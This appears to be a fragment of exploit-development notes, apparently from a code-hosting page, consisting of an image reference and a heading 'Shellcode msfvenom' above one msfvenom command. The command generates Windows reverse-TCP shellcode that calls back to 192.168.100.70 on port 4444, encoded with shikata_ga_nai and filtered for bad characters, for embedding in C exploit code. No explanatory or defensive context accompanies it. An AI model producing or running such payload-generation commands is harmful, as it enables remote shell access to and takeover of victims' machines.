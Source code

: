 

### Shellcode msfvenom
 ```
 msfvenom -p windows/shell_reverse_tcp LHOST=192.168.100.70 LPORT=4444 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
 ```

